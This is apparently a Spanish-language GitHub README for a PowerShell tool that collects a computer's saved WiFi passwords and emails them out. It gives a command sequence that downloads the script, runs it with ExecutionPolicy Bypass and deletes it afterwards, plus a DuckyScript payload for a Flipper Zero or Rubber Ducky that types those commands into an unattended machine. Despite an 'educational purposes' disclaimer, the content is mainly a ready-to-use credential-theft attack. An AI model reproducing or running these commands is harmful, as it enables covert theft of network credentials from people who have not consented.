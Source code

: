 # WiFi Credentials Exporter

Este repositorio contiene un script de PowerShell que exporta los perfiles de WLAN de una computadora, obtiene las claves de WiFi guardadas y las envía por correo electrónico en formato HTML.

## Descargo de Responsabilidad

**Este script es proporcionado con fines educativos. El uso indebido de este script para acceder a redes WiFi sin autorización es ilegal y contrario a la ética. El autor no se hace responsable de ningún daño o consecuencia legal que pueda resultar del uso indebido de este script.**

## Uso

Para utilizar este script, sigue estos pasos:

1. **Descargar y Ejecutar el Script Manualmente**: Puedes descargar el script `wifi_credentials.ps1` directamente desde GitHub y ejecutarlo manualmente en PowerShell.
   ```powershell
   Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alejandro001100/wifi_credentials/main/wifi_credentials.ps1" -OutFile "$env:TEMP\wifi_credentials.ps1"
   powershell -ExecutionPolicy Bypass -File "$env:TEMP\wifi_credentials.ps1"
   Remove-Item "$env:TEMP\wifi_credentials.ps1"
2.  **Usar con Flipper Zero:** Si deseas utilizar este script con un dispositivo USB Rubber Ducky (Flipper Zero), puedes utilizar el siguiente DuckyScript:
```powershell
DELAY 1000
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000

STRING Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alejandro001100/wifi_credentials/main/wifi_credentials.ps1" -OutFile "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 5000

STRING powershell -ExecutionPolicy Bypass -File "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 10000

STRING Remove-Item "$env:TEMP\wifi_credentials.ps1"
ENTER
DELAY 1000

STRING exit
ENTER

